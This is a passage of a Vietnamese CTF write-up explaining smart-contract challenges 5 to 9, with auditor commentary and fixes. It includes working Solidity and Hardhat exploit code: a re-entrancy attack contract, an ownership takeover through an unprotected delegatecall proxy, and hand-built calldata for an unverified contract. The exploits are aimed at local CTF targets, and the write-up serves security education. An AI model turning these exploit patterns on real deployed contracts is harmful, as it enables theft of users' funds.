Challenge 4 là một lời nhắc nhở mạnh mẽ rằng an toàn của smart contract phụ thuộc rất nhiều vào các nguyên tắc mật mã cơ bản. Việc hiểu rõ các chi tiết kỹ thuật như sự khác biệt giữa các phương thức mã hóa (`abi.encode` và `abi.encodePacked`) là cực kỳ quan trọng để đảm bảo tính tương thích và bảo mật giữa logic on-chain và off-chain.

---

## **Challenge #5: Give Me My Points!**

### **Giới thiệu**

Challenge 5 đưa chúng ta đến với "The Big One" - lỗ hổng Re-entrancy. Đây không chỉ là một bài tập, mà là một bài học lịch sử về bảo mật blockchain. Bằng cách khai thác một sai lầm trong thứ tự thực thi lệnh, kẻ tấn công có thể gọi lại một hàm nhiều lần trước khi trạng thái của nó được cập nhật, dẫn đến việc rút cạn tài sản hoặc phá vỡ logic nghiệp vụ của contract.

*   **Địa chỉ contract:** [`0xB76AdFe9a791367A8fCBC2FDa44cB1a2c39D8F59`](https://optimistic.etherscan.io/address/0xB76AdFe9a791367A8fCBC2FDa44cB1a2c39D8F59)

### **Phân tích Lỗ hổng: Vi phạm quy tắc Vàng "Checks-Effects-Interactions"**

Hãy cùng mổ xẻ hàm `claimPoints()` của contract `Challenge5`:

```solidity
function claimPoints() public {
    // Bước 1: CHECK (Kiểm tra)
    require(points[tx.origin] == 0, "Already claimed points");

    // Bước 2: INTERACTION (Tương tác)
    (bool success, ) = msg.sender.call("");
    require(success, "External call failed");

    // Bước 3: EFFECT (Thay đổi trạng thái)
    points[tx.origin] += 1;
}
```

Thoạt nhìn, `require(points[tx.origin] == 0)` có vẻ như sẽ ngăn chặn chúng ta gọi hàm này nhiều lần. Nhưng vấn đề chí mạng nằm ở **thứ tự thực thi**. Lệnh gọi ra bên ngoài (`msg.sender.call("")`) được thực hiện **TRƯỚC KHI** trạng thái được cập nhật (`points[tx.origin] += 1`).

Đây là sự vi phạm trực tiếp quy tắc bảo mật vàng **Checks-Effects-Interactions (CEI)**:
1.  **Checks:** Thực hiện tất cả các kiểm tra (`require`, `if`, etc.).
2.  **Effects:** Thay đổi tất cả các biến trạng thái (`points = 1`, `balance -= amount`, etc.).
3.  **Interactions:** Tương tác với các contract bên ngoài (`externalContract.call()`).

Bằng cách đặt Interaction trước Effect, contract `Challenge5` đã mở ra một cánh cửa cho cuộc tấn công Re-entrancy.

#### **Sơ đồ khai thác**

Cuộc tấn công diễn ra như một vòng lặp đệ quy, nơi contract tấn công của chúng ta liên tục gọi lại `claimPoints()` trước khi lần gọi đầu tiên kịp hoàn thành.



Sau khi vòng lặp hoàn tất, biến `points` của chúng ta sẽ là 10, đủ điều kiện để mint flag.

### **Vấn đề trong thực tế: Vụ hack The DAO**

Đây chính xác là lỗ hổng đã được sử dụng trong vụ hack The DAO năm 2016, dẫn đến việc mất 3.6 triệu ETH và buộc cộng đồng phải thực hiện một hard fork gây tranh cãi để tạo ra hai chuỗi Ethereum và Ethereum Classic. Kẻ tấn công đã gọi hàm `withdraw` nhiều lần trước khi contract kịp cập nhật số dư của chúng.

Khi audit, việc tìm kiếm các lệnh gọi ra bên ngoài (`.call`, `.transfer`, `.send`) được đặt trước các lệnh cập nhật trạng thái là một trong những ưu tiên hàng đầu. Các công cụ phân tích tĩnh như Slither có thể tự động phát hiện mẫu code nguy hiểm này.

### **Hướng giải quyết và khai thác**

Chúng ta sẽ tạo một contract `Challenge5Solution` để thực hiện cuộc tấn công re-entrancy, sau đó dùng script để điều phối cuộc tấn công.

**1. Viết Contract tấn công**

Tạo file `Challenge5Solution.sol` trong `packages/hardhat/contracts/`.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.20;

interface IChallenge5 {
    function claimPoints() external;
    function mintFlag() external;
    function resetPoints() external;
}

contract Challenge5Solution {
    IChallenge5 public immutable target;
    uint256 public callCount;
    uint256 public constant POINTS_TO_MINT = 10;

    constructor(address _targetAddress) {
        target = IChallenge5(_targetAddress);
    }

    // Bước 1: Hàm bắt đầu cuộc tấn công
    function startAttack() external {
        callCount = 0;
        target.claimPoints();
    }

    // Bước 2: Hàm này sẽ được gọi lại liên tục bởi contract Challenge5
    receive() external payable {
        // Giới hạn số lần gọi lại để tránh hết gas
        if (callCount < POINTS_TO_MINT - 1) {
            callCount++;
            target.claimPoints(); // Gọi lại chính nó -> Re-entrancy
        }
    }
}
```

**2. Viết script Deploy và tấn công**

Tạo file `05_deploy_challenge_5_solution.ts` trong `packages/hardhat/deploy/`.

```typescript
import { HardhatRuntimeEnvironment } from "hardhat/types";
import { DeployFunction } from "hardhat-deploy/types";
import { Contract } from "ethers";

const solveChallenge5: DeployFunction = async function (hre: HardhatRuntimeEnvironment) {
  const { deployer } = await hre.getNamedAccounts();
  const { deploy } = hre.deployments;

  console.log("Solving Challenge 5...");

  // Lấy contract challenge gốc
  const challenge5: Contract = await hre.ethers.getContract("Challenge5", deployer);

  // Deploy contract tấn công
  await deploy("Challenge5Solution", {
    from: deployer,
    args: [await challenge5.getAddress()], // Truyền địa chỉ mục tiêu
    log: true,
  });
  
  const solutionContract: Contract = await hre.ethers.getContract("Challenge5Solution", deployer);

  // Reset điểm để đảm bảo script có thể chạy lại nhiều lần
  console.log("1. Resetting points...");
  const resetTx = await challenge5.resetPoints();
  await resetTx.wait();

  // Bắt đầu cuộc tấn công re-entrancy
  console.log("2. Starting the re-entrancy attack...");
  const attackTx = await solutionContract.startAttack();
  await attackTx.wait();
  console.log("   -> Attack finished, points should now be 10.");

  // Mint cờ sau khi đã có đủ điểm
  console.log("3. Minting the flag...");
  const mintTx = await challenge5.mintFlag();
  await mintTx.wait();

  console.log("Challenge 5 solved successfully!");
};

export default solveChallenge5;
solveChallenge5.tags = ["solution5"];
```

**3. Thực thi trên môi trường Local**

1.  **Khởi động blockchain local:** `yarn chain`
2.  **Deploy các challenge gốc:** `yarn deploy --network localhost`
3.  **Giải Challenge 1 (điều kiện tiên quyết):** `yarn deploy --network localhost --tags solution1`
4.  **Giải Challenge 5:** `yarn deploy --network localhost --tags solution5`

### **Kết luận**

Challenge 5 là một bài học không thể quên về tầm quan trọng của thứ tự thực thi trong smart contract. Lời khuyên phòng chống re-entrancy rất rõ ràng: **Luôn luôn tuân thủ quy tắc Checks-Effects-Interactions.** Cập nhật tất cả các biến trạng thái (Effects) trước khi thực hiện bất kỳ lệnh gọi nào đến một contract không đáng tin cậy (Interactions). Ngoài ra, có thể sử dụng các "mutex" hoặc "re-entrancy guard" (như của OpenZeppelin) để khóa contract trong quá trình thực thi một hàm nhạy cảm.

---

## **Challenge #6: Meet all the conditions**

### **Giới thiệu**

Challenge 6 là một bài toán độc đáo, chuyển trọng tâm từ các lỗ hổng logic sang việc kiểm soát chính xác môi trường thực thi của EVM. Để giải được, chúng ta không chỉ cần gọi đúng hàm với đúng tham số, mà còn phải thực hiện nó với một lượng gas còn lại nằm trong một cửa sổ cực kỳ hẹp. Đây là một bài tập về "gas golfing" và hiểu sâu về cách EVM xử lý gas.

*   **Địa chỉ contract:** [`0x75961D2da1DEeBaEC24cD0E180187E6D55F55840`](https://optimistic.etherscan.io/address/0x75961D2da1DEeBaEC24cD0E180187E6D55F55840)

### **Phân tích "Câu đố": Ba Chìa khóa để Mở Cửa**

Hàm `mintFlag()` yêu cầu chúng ta phải thỏa mãn đồng thời ba điều kiện:

```solidity
function mintFlag(uint256 code) public {
    // 1. Chìa khóa Mã số (The Code Key)
    require(code == count << 8, "Wrong code");

    // 2. Chìa khóa Danh tính (The Identity Key)
    require(
        keccak256(abi.encodePacked(IContract6Solution(msg.sender).name())) ==
            keccak256("BG CTF Challenge 6 Solution"),
        "Wrong name"
    );

    // 3. Chìa khóa Gas (The Gas Key)
    uint256 gas = gasleft();
    require(gas > 190_000 && gas < 200_000, string.concat("Wrong gas: ", gas.toString()));

    INFTFlags(nftContract).mint(tx.origin, 6);
    count += 1;
}
```

1.  **Chìa khóa Mã số:** Tham số `code` phải bằng giá trị của biến trạng thái `count` dịch trái 8 bit (`count * 256`). Điều này có nghĩa là contract tấn công của chúng ta phải đọc `count` trước, tính toán, rồi mới gọi `mintFlag`.
2.  **Chìa khóa Danh tính:** Người gọi (`msg.sender`) phải là một contract có hàm `name()` trả về chuỗi chính xác là `"BG CTF Challenge 6 Solution"`.
3.  **Chìa khóa Gas:** Đây là phần khó nhất. Tại thời điểm thực thi dòng `gasleft()`, lượng gas còn lại phải nằm trong khoảng (190,000, 200,000). Một lệnh gọi thông thường sẽ chuyển tiếp gần như toàn bộ gas, thường là vài triệu, khiến yêu cầu này thất bại. Do đó, chúng ta phải tìm cách giới hạn lượng gas được chuyển tiếp một cách chính xác.

### **Góc nhìn của một Auditor: Sự Nguy hiểm của Logic Phụ thuộc vào Gas**

Việc viết code có logic phụ thuộc vào một lượng `gasleft()` cụ thể là một **anti-pattern** cực kỳ nguy hiểm và được coi là một lỗ hổng nghiêm trọng.

*   **Tính không ổn định:** Chi phí gas của các opcode EVM có thể thay đổi (và đã từng thay đổi) trong các bản nâng cấp mạng (hard fork). Một contract hoạt động hoàn hảo hôm nay có thể bị "brick" (không thể sử dụng được nữa) vào ngày mai chỉ vì chi phí gas thay đổi một chút.
*   **Khả năng bị tấn công Griefing:** Kẻ tấn công có thể cố tình gửi một lượng gas vừa đủ để giao dịch bắt đầu chạy nhưng thất bại ở bước kiểm tra `gasleft()`, khiến người dùng tốn phí gas mà không đạt được gì.
*   **Red Flag:** Khi audit, bất kỳ dòng code nào có dạng `require(gasleft() == ...)` hoặc `require(gasleft() > ...)` đều là một "red flag" lớn. Auditor sẽ yêu cầu loại bỏ logic này và thay thế bằng các phương pháp xác thực đáng tin cậy hơn, không phụ thuộc vào một yếu tố dễ thay đổi như gas.

### **Hướng giải quyết và khai thác**

Có hai cách tiếp cận để điều khiển gas:
1.  **Trong Smart Contract:** Dùng lệnh gọi cấp thấp `.call{gas: ...}` để chỉ định gas cho lệnh gọi con. (Cách này tỏ ra khó gỡ lỗi và không ổn định trong môi trường Hardhat của chúng ta).
2.  **Từ Client-side:** Giới hạn `gasLimit` của toàn bộ giao dịch cha từ script deploy. Khi giao dịch chạy, lượng gas còn lại được chuyển tiếp sẽ bị "bóp" lại một cách tự nhiên.

Chúng ta sẽ sử dụng cách thứ hai vì nó hiệu quả và dễ kiểm soát hơn.

**1. Viết Contract Tấn Công**

Contract này chỉ cần thỏa mãn 2 chìa khóa đầu tiên: Danh tính và Mã số. Việc điều khiển gas sẽ được thực hiện ở bên ngoài.

Tạo file `Challenge6Solution.sol` trong `packages/hardhat/contracts/`:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.20;

interface IChallenge6 {
    function count() external view returns (uint256);
    function mintFlag(uint256 code) external;
}

contract Challenge6Solution {
    IChallenge6 public immutable target;

    constructor(address _targetAddress) {
        target = IChallenge6(_targetAddress);
    }

    function name() external pure returns (string memory) {
        return "BG CTF Challenge 6 Solution";
    }

    // Hàm tấn công chỉ cần gọi một cách bình thường
    function startAttack() external {
        uint256 currentCount = target.count();
        uint256 correctCode = currentCount << 8;
        target.mintFlag(correctCode);
    }
}
```

**2. Viết Script Deploy và "Gas Golfing"**

Đây là nơi "phép thuật" xảy ra. Chúng ta sẽ giới hạn `gasLimit` của giao dịch `startAttack`.

*   **Quá trình tìm ra con số "Vàng":**
    1.  Bắt đầu với một `gasLimit` lớn, ví dụ `295000`.
    2.  Chạy script và xem log của `yarn chain`. Nó báo lỗi `Wrong gas: 262215`.
    3.  Ta thấy gas còn lại đang thừa khoảng `262215 - 195000 = 67215`.
    4.  Ta tính `gasLimit` mới: `295000 - 67215 = 227785`.
    5.  Làm tròn và thử lại với `gasLimit = 230000`, giao dịch đã thành công.

Tạo file `06_deploy_challenge_6_solution.ts` với con số `gasLimit` đã được tinh chỉnh:
```typescript
import { HardhatRuntimeEnvironment } from "hardhat/types";
import { DeployFunction } from "hardhat-deploy/types";
import { Contract } from "ethers";

const solveChallenge6: DeployFunction = async function (hre: HardhatRuntimeEnvironment) {
  const { deployer } = await hre.getNamedAccounts();
  const { deploy } = hre.deployments;
  const signer = await hre.ethers.getSigner(deployer);

  console.log("Solving Challenge 6...");

  const challenge6: Contract = await hre.ethers.getContract("Challenge6", deployer);
  await deploy("Challenge6Solution", {
    from: deployer,
    args: [await challenge6.getAddress()],
    log: true,
  });
  
  const solutionContract: Contract = await hre.ethers.getContract("Challenge6Solution", signer);

  console.log("Starting the attack with a fine-tuned gas limit...");
  
  // Con số này được tìm ra qua quá trình thử và sai
  const gasLimit = 230000; 

  const attackTx = await solutionContract.startAttack({
    gasLimit: gasLimit,
  });
  await attackTx.wait();

  console.log("Challenge 6 solved successfully!");
};

export default solveChallenge6;
solveChallenge6.tags = ["solution6"];
```

**3. Thực thi trên môi trường Local**

1.  **Khởi động blockchain local:** `yarn chain`
2.  **Deploy các challenge gốc:** `yarn deploy --network localhost`
3.  **Giải Challenge 1 (điều kiện tiên quyết):** `yarn deploy --network localhost --tags solution1`
4.  **Giải Challenge 6:** `yarn deploy --network localhost --tags solution6`

### **Kết luận**

Challenge 6 là một bài học tuyệt vời về việc EVM không phải là một "hộp đen". Bằng cách kiểm soát các tham số của giao dịch từ client, chúng ta có thể ảnh hưởng đến môi trường thực thi on-chain một cách chính xác. Quá trình "gas golfing" thông qua thử và sai có hệ thống là một kỹ năng gỡ lỗi quan trọng, và bài toán này một lần nữa nhấn mạnh sự nguy hiểm của việc xây dựng logic phụ thuộc vào `gasleft()`.

---

## **Challenge #7: Delegate**

### **Giới thiệu**

Challenge 7 giới thiệu một khái niệm nền tảng của các smart contract có khả năng nâng cấp: Proxy Pattern. Bằng cách sử dụng một lệnh gọi cấp thấp đặc biệt là `delegatecall`, một contract (Proxy) có thể "mượn" code từ một contract khác (Logic/Implementation) để thực thi, trong khi vẫn giữ nguyên trạng thái (storage) của chính mình. Lỗ hổng trong challenge này không phải là một bug, mà là một sự hiểu lầm về cách `delegatecall` thay đổi quyền sở hữu.

*   **Địa chỉ contract:** [`0xC962D4f4E772415475AA46Eed06cb1F2D4010c0A`](https://optimistic.etherscan.io/address/0xC962D4f4E772415475AA46Eed06cb1F2D4010c0A)

### **Phân tích Lỗ hổng: "Code from one, storage from another"**

Hệ thống này bao gồm hai contract:
1.  **`Challenge7` (The Proxy):** Contract này lưu trữ dữ liệu quan trọng (`owner`, `nftContract`). Nó không có nhiều logic, nhưng có một hàm `fallback()` đặc biệt.
2.  **`Challenge7Delegate` (The Logic):** Contract này chứa logic nghiệp vụ, cụ thể là hàm `claimOwnership()`.

Mối quan hệ giữa hai contract này tuân theo một mẫu thiết kế phổ biến gọi là **Proxy Pattern**, được minh họa như sau:


*(Trong challenge này, `Challenge7` chính là **Proxy** (lưu trữ state) và `Challenge7Delegate` là **Implementation** (lưu trữ logic).)*


Mấu chốt nằm ở hàm `fallback()` của `Challenge7`:
```solidity
fallback() external {
    (bool result, ) = address(delegate).delegatecall(msg.data);
    if (result) {
        this;
    }
}
```
Và hàm `claimOwnership()` trong `Challenge7Delegate`:
```solidity
function claimOwnership() public {
    owner = msg.sender;
    emit OwnerChange(msg.sender);
}
```
**`delegatecall` hoạt động như thế nào?**
Khi chúng ta gọi một hàm không tồn tại trên `Challenge7` (ví dụ: `claimOwnership`), `fallback()` sẽ được kích hoạt. Nó sẽ thực hiện một `delegatecall` đến `Challenge7Delegate`. Điều này có nghĩa là:
*   **Code** của hàm `claimOwnership` từ `Challenge7Delegate` sẽ được thực thi.
*   Nhưng nó được thực thi trong **ngữ cảnh (context)** của `Challenge7`. Điều này có nghĩa là mọi thay đổi về state (storage) sẽ được áp dụng cho **storage của `Challenge7`**, không phải của `Challenge7Delegate`.

Khi hàm `claimOwnership` thực thi `owner = msg.sender`, nó đang ghi đè lên biến `owner` trong storage của `Challenge7`!

#### **Sơ đồ khai thác**



**Mục tiêu:** Gọi hàm `claimOwnership` trên contract `Challenge7` để ghi đè `owner` của nó thành địa chỉ của chúng ta, sau đó gọi `mintFlag` để lấy cờ.

### **Góc nhìn của một Auditor**

Proxy Pattern là một con dao hai lưỡi. Nó mang lại một lợi ích cực kỳ lớn là khả năng nâng cấp smart contract - một việc vốn dĩ là không thể trên blockchain. Bằng cách trỏ Proxy đến một contract Implementation mới, các dự án có thể sửa lỗi hoặc thêm tính năng mà không yêu cầu người dùng thay đổi địa chỉ contract họ đang tương tác.


Tuy nhiên, chính sức mạnh này lại tạo ra những rủi ro nghiêm trọng mà auditor phải kiểm tra rất kỹ:
1.  **Storage Layout Collision:** Biến `owner` trong `Challenge7` và `Challenge7Delegate` cùng nằm ở slot 0, đó là lý do cuộc tấn công này hoạt động. Nếu thứ tự hoặc kiểu dữ liệu của các biến trong Proxy và Logic không khớp nhau, một `delegatecall` có thể vô tình ghi đè lên các dữ liệu quan trọng, dẫn đến các lỗi nghiêm trọng.
2.  **Unprotected Logic Functions:** Hàm `claimOwnership` trong contract Logic không có bất kỳ cơ chế bảo vệ nào (`onlyOwner`, etc.). Bất kỳ ai cũng có thể gọi nó thông qua Proxy. Đây là một lỗ hổng nghiêm trọng trong thiết kế. Logic nhạy cảm trong contract implementation phải luôn được bảo vệ.
3.  **Initialization:** Trong các proxy phức tạp hơn (như UUPS), contract Logic thường có một hàm `initialize` để thiết lập `owner` ban đầu. Nếu hàm này không được bảo vệ để chỉ có thể gọi một lần, kẻ tấn công có thể gọi lại nó để chiếm quyền.

### **Hướng giải quyết và khai thác**

Cuộc tấn công này không cần contract mới, chỉ cần một script để gửi đi hai giao dịch theo đúng thứ tự.

**1. Viết Script deploy và tấn công**

Tạo file `07_deploy_challenge_7_solution.ts` trong `packages/hardhat/deploy/`.

```typescript
import { HardhatRuntimeEnvironment } from "hardhat/types";
import { DeployFunction } from "hardhat-deploy/types";
import { Contract } from "ethers";

const solveChallenge7: DeployFunction = async function (hre: HardhatRuntimeEnvironment) {
  const { deployer } = await hre.getNamedAccounts();
  const signer = await hre.ethers.getSigner(deployer);

  console.log("Solving Challenge 7...");

  // Lấy contract Challenge7 (Proxy)
  const challenge7: Contract = await hre.ethers.getContract("Challenge7", signer);
  // Lấy ABI của contract Challenge7Delegate (Logic)
  const delegateAbi = (await hre.deployments.get("Challenge7Delegate")).abi;

  // === BƯỚC 1: TẤN CÔNG ĐỂ CHIẾM QUYỀN ===
  console.log("1. Creating a contract instance of the Logic, but pointing it at the Proxy's address...");
  
  // Đây là bước quan trọng: chúng ta "lừa" ethers.js bằng cách sử dụng ABI của Logic
  // nhưng tương tác với địa chỉ của Proxy.
  const proxyAsLogic = new Contract(await challenge7.getAddress(), delegateAbi, signer);

  console.log("2. Calling 'claimOwnership()' through the Proxy...");
  const takeoverTx = await proxyAsLogic.claimOwnership();
  await takeoverTx.wait();

  // Kiểm tra lại để chắc chắn
  const newOwner = await challenge7.owner();
  console.log(`Ownership successfully taken! New owner is: ${newOwner}`);
  
  // === BƯỚC 2: MINT FLAG VỚI QUYỀN MỚI ===
  console.log("3. Calling 'mintFlag()' as the new owner...");
  const mintTx = await challenge7.mintFlag();
  await mintTx.wait();

  console.log("Challenge 7 solved successfully!");
};

export default solveChallenge7;
solveChallenge7.tags = ["solution7"];
```

**2. Thực thi trên môi trường Local**

1.  **Khởi động blockchain local:** `yarn chain`
2.  **Deploy các challenge gốc:** `yarn deploy --network localhost`
3.  **Giải Challenge 1 (điều kiện tiên quyết):** `yarn deploy --network localhost --tags solution1`
4.  **Giải Challenge 7:** `yarn deploy --network localhost --tags solution7`

### **Kết luận**

Challenge 7 là một minh họa tuyệt vời về sức mạnh và sự nguy hiểm của `delegatecall`. Nó là nền tảng cho các contract có khả năng nâng cấp, nhưng đòi hỏi sự cẩn trọng tuyệt đối trong việc quản lý storage layout và bảo vệ các hàm trong contract logic. Bất kỳ hàm nào có khả năng thay đổi state quan trọng trong contract logic đều phải có cơ chế kiểm soát truy cập chặt chẽ.

---

## **Challenge #8: The unverified**
### **Giới thiệu**
Challenge 8 ném chúng ta vào một tình huống thực tế: phải tương tác với một smart contract mà không có source code hay ABI (Application Binary Interface). Trên Etherscan, nó chỉ là một mớ bytecode. Đây không phải là một lỗ hổng về logic, mà là một bài kiểm tra kỹ năng reverse-engineering (dịch ngược) và khả năng tương tác cấp thấp với EVM.

*   **Địa chỉ contract:** [`0x663145aA2918282A4F96af66320A5046C7009573`](https://optimistic.etherscan.io/address/0x663145aA2918282A4F96af66320A5046C7009573)

### **Phân tích "Lỗ hổng": Security Through Obscurity is Not Security**

Khi truy cập địa chỉ contract trên Etherscan, chúng ta chỉ thấy bytecode ở tab Contract mà không hề thấy bất kỳ source code hay ABI nào giống như các contract khác. Chúng ta không biết nó có những hàm gì, nhận tham số nào, hay làm gì bên trong.

**Cuộc điều tra bắt đầu:**
1.  **Sử dụng Decompiler:** Bước đầu tiên của bất kỳ nhà nghiên cứu nào là sử dụng một công cụ dịch ngược bytecode. Các công cụ online như `Dedaub`, `EtherVM`, hay `abi.ninja` có thể phân tích bytecode và đưa ra một phiên bản code "giống Solidity" dễ đọc hơn.
2.  **Liên kết với Script Deploy gốc:** Manh mối lớn nhất nằm ở cách contract này được deploy trong file `00_deploy_ctf_contracts.ts`. Không giống các challenge khác dùng `deploy()`, Challenge 8 được tạo ra bằng cách gửi một giao dịch thô (raw transaction) với một chuỗi bytecode được "chế tạo" sẵn.
    ```typescript
    // ... trong script deploy gốc ...
    const challenge8BytecodeBase = "0x608060405234801561001057600080fd5b50604051...";
    const nftFlagsAddress = await nftFlags.getAddress();
    const challenge8Bytecode = challenge8BytecodeBase + nftFlagsAddress.slice(2).padStart(64, "0");
    // ... gửi giao dịch với data là challenge8Bytecode ...
    ```
    Đoạn code này tạo ra một contract mà **constructor của nó** sẽ mint flag. Chuỗi bytecode được truyền vào chứa địa chỉ của `NFTFlags`.

**Dịch ngược chuỗi challenge8BytecodeBase**
1. **Sử dụng Decompiler:** Sử dụng công cụ decompiler online như abi.ninja hoặc EtherVM. Hoặc sử dụng công cụ như [Panoramix decompiler created by @Tomasz Kolinko](https://github.com/eveem-org/panoramix) để dịch ngược bytecode.
Kết quả dịch ngược có thể xem tại [Link](https://optimistic.etherscan.io/bytecode-decompiler?a=0x663145aA2918282A4F96af66320A5046C7009573).

2. **Phân tích kết quả Decompile:** Kết quả dịch ngược cho chúng ta một cái nhìn rõ ràng về cấu trúc bên trong của contract:

  ```
  # Palkeoramix decompiler. 

  def storage:
    nftContractAddress is addr at storage 0

  def nftContract() payable: 
    return nftContractAddress

  #
  #  Regular functions
  #

  def _fallback() payable: # default function
    revert

  def unknown8fd628f0(uint256 _param1) payable: 
    require calldata.size - 4 >=′ 32
    require _param1 == addr(_param1)
    if addr(_param1) != caller:
        revert with 0, 'Invalid minter'
    require ext_code.size(nftContractAddress)
    call nftContractAddress.mint(address owner, uint256 value) with:
        gas gas_remaining wei
        args caller, 8
    if not ext_call.success:
        revert with ext_call.return_data[0 len return_data.size]
  ```

**Kết luận của cuộc điều tra:**
- **Hàm ẩn:** Contract được deploy trên local có một hàm public với function selector là `0x8fd628f0`.
- **Điều kiện:** Để hàm chạy thành công, địa chỉ được truyền vào (`_param1`) phải chính là địa chỉ của người gọi (`msg.sender`).
- **Phần thưởng:** Nếu điều kiện được thỏa mãn, contract sẽ mint flag #8 cho chúng ta.

**Mục tiêu:** Gọi hàm `0x8fd628f0` và truyền vào chính địa chỉ ví deployer của chúng ta làm tham số.

### **Góc nhìn của một Auditor**

*   **Rủi ro của Contract không xác thực:** Đây là "red flag" lớn nhất đối với người dùng. Không ai biết code bên trong làm gì. Nó có thể chứa backdoor để rút tiền, logic lừa đảo, hoặc các lỗ hổng nghiêm trọng. Lời khuyên cho người dùng luôn là: **Không bao giờ tương tác với các contract tài chính quan trọng mà chưa được xác thực source code.**
*   **"Bảo mật bằng cách che giấu" là vô nghĩa:** Một số dự án có thể nghĩ rằng việc không public source code sẽ khiến họ an toàn hơn. Challenge này chứng minh điều ngược lại. Bất kỳ kẻ tấn công có quyết tâm nào cũng sẽ dịch ngược bytecode để tìm ra cách khai thác.
*   **Tầm quan trọng của minh bạch:** Việc xác thực source code trên Etherscan là một tiêu chuẩn vàng trong ngành, thể hiện sự minh bạch và xây dựng lòng tin với cộng đồng.

### **Hướng giải quyết và khai thác**

Vì chúng ta không có ABI, chúng ta không thể dùng `hre.ethers.getContract` một cách bình thường. Thay vào đó, chúng ta phải tự mình "chế tạo" toàn bộ `calldata` cho giao dịch.

**1. Viết Script Deploy và Tấn Công**

Tạo file `08_deploy_challenge_8_solution.ts` trong `packages/hardhat/deploy/`.

```typescript
import { HardhatRuntimeEnvironment } from "hardhat/types";
import { DeployFunction } from "hardhat-deploy/types";
import { ethers } from "ethers";

const solveChallenge8: DeployFunction = async function (hre: HardhatRuntimeEnvironment) {
  const { deployer } = await hre.getNamedAccounts();
  const signer = await hre.ethers.getSigner(deployer);

  console.log("🏁 Solving Challenge 8...");

  // Lấy địa chỉ của contract challenge đã được deploy từ bytecode
  const challenge8 = await hre.deployments.get("Challenge8");

  // === BƯỚC 1: XÁC ĐỊNH FUNCTION SIGNATURE VÀ THAM SỐ TỪ DECOMPILER ===
  // Từ decompiler, ta biết function selector là 0x8fd628f0
  const functionSelector = "0x8fd628f0";
  // Tham số yêu cầu là chính địa chỉ của người gọi (deployer)
  const functionArgs = [deployer];

  // === BƯỚC 2: TẠO CALLDATA THỦ CÔNG ===
  console.log("1. Crafting the calldata manually based on local bytecode analysis...");
  
  // Mã hóa tham số (địa chỉ) thành một word 32-byte
  const encodedArgs = ethers.AbiCoder.defaultAbiCoder().encode(["address"], functionArgs);
  
  // Ghép function selector (4 bytes) với tham số đã mã hóa (32 bytes)
  const calldata = ethers.concat([functionSelector, encodedArgs]);
  console.log("   -> Calldata:", calldata);

  // === BƯỚC 3: GỬI GIAO DỊCH THÔ ===
  console.log("2. Sending the raw transaction to the unverified local contract...");
  const tx = await signer.sendTransaction({
    to: challenge8.address,
    data: calldata,
  });
  await tx.wait();

  console.log("🎉 Challenge 8 solved successfully!");
};

export default solveChallenge8;
solveChallenge8.tags = ["solution8"];
```

**2. Thực thi trên môi trường Local**

1.  **Khởi động blockchain local:** `yarn chain`
2.  **Deploy các challenge gốc:** `yarn deploy --network localhost`
3.  **Giải Challenge 1 (điều kiện tiên quyết):** `yarn deploy --network localhost --tags solution1`
4.  **Giải Challenge 8:** `yarn deploy --network localhost --tags solution8`

### **Kết luận**

Challenge 8 là một bài học thực tế về tầm quan trọng của việc có thể đọc và hiểu bytecode ở mức độ cơ bản. Nó chứng minh rằng không có gì là thực sự bị che giấu trên một blockchain công khai. Kỹ năng sử dụng decompiler và chế tạo calldata thủ công là những công cụ vô giá trong bộ đồ nghề của bất kỳ nhà phát triển hay nhà nghiên cứu bảo mật nào.

---

## **Challenge #9: Password protected**

### **Giới thiệu**

Challenge 9 tập trung vào một quan niệm sai lầm phổ biến: cho rằng việc khai báo biến là `private` trong Solidity sẽ giữ cho nó bí mật. Trên một blockchain công khai, không có gì là thực sự riêng tư. Bất kỳ ai cũng có thể đọc trực tiếp các slot lưu trữ (storage slots) của một contract. Bài toán này yêu cầu chúng ta đọc các biến `private`, tái tạo lại một logic thao tác bit (bitwise manipulation), và sử dụng kết quả đó để mint flag.

*   **Địa chỉ contract:** [`0x1Fd913F2250ae5A4d9F8881ADf3153C6e5E2cBb1`](https://optimistic.etherscan.io/address/0x1Fd913F2250ae5A4d9F8881ADf3153C6e5E2cBb1)

### **Phân tích Lỗ hổng: "Private" is Public on the Blockchain**

Hãy xem xét các thành phần chính của `Challenge9.sol`:
```solidity
//SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

import "./INFTFlags.sol";

contract Challenge9 {
    address public nftContract;
    bytes32 private password;
    uint256 private count;

    constructor(address _nftContract, bytes32 _password) {
        nftContract = _nftContract;
        password = _password;
    }

    function mintFlag(bytes32 _password) public {
        bytes32 mask = ~(bytes32(uint256(0xFF) << ((31 - (count % 32)) * 8)));
        bytes32 newPassword = password & mask;
        require(newPassword == _password, "Wrong password");
        count += 1;
        INFTFlags(nftContract).mint(msg.sender, 9);
    }
}
```
**Cuộc điều tra đã có kết quả:**
1.  **Lỗ hổng cốt lõi:** Các biến `password` và `count` được khai báo là `private`, nhưng chúng vẫn được lưu trữ công khai trên blockchain. Chúng ta có thể đọc giá trị của chúng bằng cách truy cập trực tiếp các storage slot.
    *   `nftContract` (public) ở slot 0.
    *   `password` (private) ở slot 1.
    *   `count` (private) ở slot 2.
2.  **Logic thao tác bit:** Hàm `mintFlag` không yêu cầu mật khẩu gốc. Thay vào đó, nó yêu cầu một phiên bản đã bị thay đổi của mật khẩu.
    *   `bytes32 mask = ...`: Đoạn code này tạo ra một "mặt nạ" bitwise. Mặt nạ này chứa toàn bit `1`, ngoại trừ **một byte duy nhất** chứa toàn bit `0`.
    *   Vị trí của byte `0` này được quyết định bởi `count`.
    *   `newPassword = password & mask`: Phép toán AND này sẽ giữ nguyên mật khẩu gốc, nhưng **xóa trắng (set về 0)** đúng một byte đã được xác định bởi `mask`.

**Mục tiêu:**
1.  Đọc giá trị của `password` và `count` từ storage của contract.
2.  Tái tạo lại logic tạo `mask` trong script của chúng ta để tính toán ra `newPassword`.
3.  Gọi hàm `mintFlag()` với `newPassword` đã được tính toán.

### **Góc nhìn của một Auditor**

Đây là một lỗ hổng kinh điển thuộc loại **"Information Disclosure"** hoặc **"Sensitive Data on-chain"**.
*   **Rủi ro:** Bất kỳ dữ liệu nào được cho là "bí mật" (khóa, câu trả lời cho một câu đố, gốc Merkle cho một đợt airdrop riêng tư) nếu được lưu trực tiếp vào storage, dù là `private`, đều có thể bị đọc bởi bất kỳ ai.
